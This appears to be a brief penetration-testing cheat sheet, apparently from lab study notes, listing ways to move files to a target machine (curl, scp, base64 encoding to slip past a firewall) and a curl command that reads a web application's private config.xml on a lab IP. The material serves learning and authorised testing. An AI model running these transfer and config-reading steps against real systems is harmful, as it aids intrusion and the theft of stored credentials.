 ## curl
```
curl http://$IP/<FILE_NAME> -o <FILE_NAME>
```
## scp
```
scp <FILE_NAME> user@remotehost:/tmp/<FILE_NAME>
```
## base64
- When target machine has firewall, we need to encode the file to base64 strings, then decode it onthe target machine
```
base64 <FILE_NAME> -w 0

# Copy the string to the target machine and decode it
echo <STRING> | base64 -d > <FILE_NAME>
```

- Reading content of xml files
```shell-session
curl -s http://10.129.42.190/nibbleblog/content/private/config.xml | xmllint --format -
```

